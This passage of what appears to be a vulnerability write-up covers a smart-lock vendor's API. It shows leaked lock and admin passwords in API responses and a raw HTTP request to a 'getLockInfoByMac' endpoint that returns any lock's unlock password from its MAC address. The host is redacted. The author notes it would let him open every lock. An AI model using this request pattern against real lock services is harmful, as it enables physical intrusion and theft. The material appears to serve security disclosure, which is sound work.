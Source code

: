 ```http
      "password": "861226",
      "admin_password": "861226",
      "fgpSup": 1,
      "protocolVersion": "7",
      "fwVersion": "1.30.5.0",
      "preLoseSup": 0,
      "preLose": 0,
      "backAdvSup": 0,
      "backAdv": 0,
      "locationSetup": 1,
      "alarmSup": 0,
      "alarmState": 0,
      "order_type": 0,
      "fg_num": 2,
      "last_open_user": "kinkysexboy",
      "last_time": "2022-07-21 01:31:55",
      "last_timeUTC": "2022-07-20 17:31:55",
      "admin_name": "innovatekink"
    }
  ]
}
```

If you look closely on the Response, you can even spot the password of the lock, which get's send by BLE. 

I thought to myself. NICE! I can now open every lock they have. 

So i looked on, if i can find a better function to get informations about a specific lock.

## Open Sesam: one request for every lock
There is a function called `getLockInfoByMac`,  which the mac address of this lock a `POST` Argument and gets back with all information about lock.

```http
POST /?m=lock&a=getLockInfoByMac HTTP/1.1
Host: [redacted]
Content-Type: application/x-www-form-urlencoded
Content-Length: 95
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.9.1

mac=A4%3aC1%3a38%3a21%3a7F%3aD0&loginToken=92103907b8e0[...redacted....]&type=1&cp=&isBind=0
```

```http
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 24 Nov 2022 08:37:09 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Vary: Accept-Encoding
X-Powered-By: PHP/7.2.24
Content-Length: 188

{
  "state": "success",
  "type": 0,
  "desc": "接口操作成功",
  "data": {
    "name": "lock",
    "mac": "A4:C1:38:21:7F:D0",
    "isBind": 1,
    "password": "475029",
    "reset": 1,
```